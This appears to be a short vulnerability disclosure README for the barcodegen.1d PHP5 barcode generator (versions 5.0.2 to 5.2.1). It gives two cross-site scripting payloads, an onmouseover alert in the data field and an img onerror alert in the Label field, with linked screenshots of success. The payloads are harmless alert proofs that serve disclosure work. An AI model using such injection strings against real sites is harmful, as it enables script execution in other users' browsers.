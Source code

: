 # barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting

Barcode Generator barcodegen.1d PHP5-v5.0.2~5.2.1

Target：https://[vulnerable site]/barcode/HTML/BCGothercode.php
  
  Once inserted, use [” onmouseover=”alert(‘test’)] in data,
  ![image](https://github.com/wanglingjhen/barcodegen.1d-PHP5-v5.0.2-5.2.1-Cross-Site-Scripting/blob/main/data.png)
  
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/data_test.png)
  
  Other field, use ” > < img src=/ onerror=alert(‘test’)> in Label,
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/label.png)
  
  succeed
  
  ![image](https://github.com/wanglingjhen/barcodegen.1d-php5.v5.2.1-Cross-Site-Scripting/blob/main/label_test.png)
  
  
